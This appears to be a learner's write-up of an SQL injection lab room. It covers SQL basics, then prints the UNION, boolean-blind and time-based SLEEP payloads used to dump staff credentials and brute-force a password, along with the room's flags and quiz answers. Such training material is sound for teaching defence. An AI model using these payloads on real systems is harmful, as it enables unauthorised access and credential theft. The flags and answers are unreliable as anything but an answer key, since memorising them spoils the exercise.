


### Learn how to detect and exploit SQL Injection vulnerabilities

## Task 1 Brief

SQL injection causes malicious queries to bbe executed.

- What does SQL stand for?
> Structured Query Language

## Task 2 What is a Database?

A database stores electronically collections of data in an organised manner and is controlled by a DBMS (Database Management System).
There are Relational and Non-Relational databbases.

A table is made up of columns and rows. It's like a grid.

- What is the acronym for the software that controls a database?
> DBMS

- What is the name of the grid-like structure which holds the data?
> Table

## Task 3 What is SQL?

### SELECT

Is used to retrieve data from the database.
`select * from users;`

The star means that we tell SQL to get ALL values for "users"

`select username,password from users;`
This means that we want "username" and "password" this time instead of everything.

### LIMIT
`select * from users LIMIT 1;`
With LIMIT we can set how many row we should get returned. LIMIT 1 means we get one row back.

### WHERE
`select * from users where username='admin';`
With this command we get all "users" where the username="admin".
With the WHERE command we can be more specific in our search

`select * from users where username='admin' and password='p4ssword';`
We can also add an and or != to be even more specific. It is like with logical operations in programming.

### WILDCARD
`select * from users where username like 'a%';`
All the rows get returned that have a username that starts with "a".

`select * from users where username like '%mi%';`
All usernames that have a "mi" within them.

### UNION
`SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;`
We can access the data of two tables and combine them into one.

### INSERT
`insert into users (username,password) values ('bob','password123');`
We can use INSERT to insert a new row of data into the table.
Here in this example its "bob" with the password "password123".

### UPDATE
`update users SET username='root',password='pass123' where username='admin';`
We can update the information of an existing user inside of the table with UPDATE.

### DELETE
`delete from users where username='martin';`
We can delete entries from the table with DELETE.

- What SQL statement is used to retrieve data?
> SELECT

- What SQL clause can be used to retrieve data from multiple tables?
> UNION

- What SQL statement is used to add data?
> INSERT

## Task 4 What is SQL Injection?

- What character signifies the end of an SQL query?
> ;

## Task 5 In-Band SQLi

We start by injecting the code "`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR ' ') FROM staff_users`" into the database. This will result into us getting the info we want.

We can use the password then to log us into the account getting the first flag.

> THM{SQL_INJECTION_3840}

## Task 6 Blind SQLi - Authentication Bypass

- What is the flag after completing level two? (and moving to level 3)

We input SQL queries inside of the username and password fields of the login.

The result is us getting the flag.

> THM{SQL_INJECTION_9581}

## Task 7 Blind SQLi - Boolean Based

- gdfgdf

We use:
`admin123' UNION SELECT 1,2,3 from users where username like 'a%`
annd keep on adding charackters until we find that the username is "admin".

Then we use the:
`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
Command to do the same just for the password

> THM{SQL_INJECTION_1093}

## Task 8 Blind SQLi - Time Based

- What is the final flag after completing level four?

With the:
`admin123' UNION SELECT SLEEP(5);--`
command we can check how many columns the table has. The right answer will take 5 seconds to load because of the SLEEP(5).
`admin123' UNION SELECT SLEEP(5),2;--`
With the above command we will be able to see that the SLEEP(5) function gets executed correctly.

We can use the:
``https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4%';
query to constantly check for the password until we guess it correctly with the help of the query.

``referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961%';

4961 is the correct password after enough trying.

With the login credentials we are finally able to log into the account and gain access to the final flag.

> THM{SQL_INJECTION_MASTER}

## Task 9 Out-of-Band SQLi

- Name a protocol beginning with D that can be used to exfiltrate data from a database.
> DNS

## Task 10 Remediation

- Name a method of protecting yourself from an SQL Injection exploit.
> Prepared Statements
